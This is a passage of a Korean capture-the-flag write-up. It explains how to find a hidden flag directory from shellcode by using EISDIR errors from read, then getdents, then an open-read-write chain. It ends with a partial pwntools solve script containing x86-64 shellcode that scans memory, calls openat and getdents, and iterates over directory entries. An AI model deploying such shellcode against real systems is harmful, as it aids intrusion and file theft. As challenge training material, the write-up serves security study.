 여기서 어떻게 일반적인 file과 flag가 존재하는 디렉토리를 구분할 수 있을까요? 이 역시 read syscall의 errno를 통해 가능합니다.

일반적인 파일들은 모두 정말 파일이기 때문에, openat 이후 read를 진행해보면 읽어들인 바이트 수 만큼 반환값이 지정됩니다. 그러나, 우리가 openat syscall로 디렉토리를 열었을 경우, read를 진행하면 `EISDIR` 에러를 반환하게 됩니다. 우리는 이 점을 통해 어떤 파일이 flag가 존재하는 디렉토리인지 알아낼 수 있습니다.

이후에는 해당 directory를 한 번더 getdents해주고, flag의 이름을 확인해서 orw를 진행하면 됩니다.

다만 문제라면 한 쉘코드만에 이 과정을 모두 진행해야하는게... 문제이고, 그것을 잘 할 수 있는가를 질문한 문제입니다 ㅎㅎ. 풀이는 아래와 같으니 직접 디버깅 해보면서 따라가보시면 좋을 것 같습니다.

감사합니다.

## solve
```py
from pwn import *
context.arch='amd64'

e = ELF('./prob')
# p = e.process()
p = process(['python3', 'run.py'])
# p = remote('0', 10101)

pay = '''
mov rsi, 0x200FFFFFF000
mov rdi, 3
mov rdx, 4
find_map:
    xor rax, rax
    syscall
    cmp rax, 4
    je found_map
    sub rsi, 0x1000
    jmp find_map
found_map:
    sub rsi, 0x1000
    xor rsp, rsi
    xor rbp, rsi
    sub rsi, 0x2000
    xor rdi, rdi
    sub rdi, 100
    mov word ptr[rsi], 0x2f2e
    xor rdx, rdx
    xor r10, r10
    mov rax, 257
    syscall
    mov rdi, rax
    add rsi, 0x2000
    mov rdx, 0x1000
    mov rax, 78
    syscall

    mov r15, rsi
find_dir:
    mov rsi, r15
    mov r14, qword ptr[rsi + 0x10]
    and r14, 0xffff
    cmp byte ptr[rsi+0x12], 0x2e
    je pass1
    xor rdi, rdi
    sub rdi, 100
    add rsi, 0x12
    xor rdx, rdx
    xor r10, r10
    mov rax, 257
    syscall
```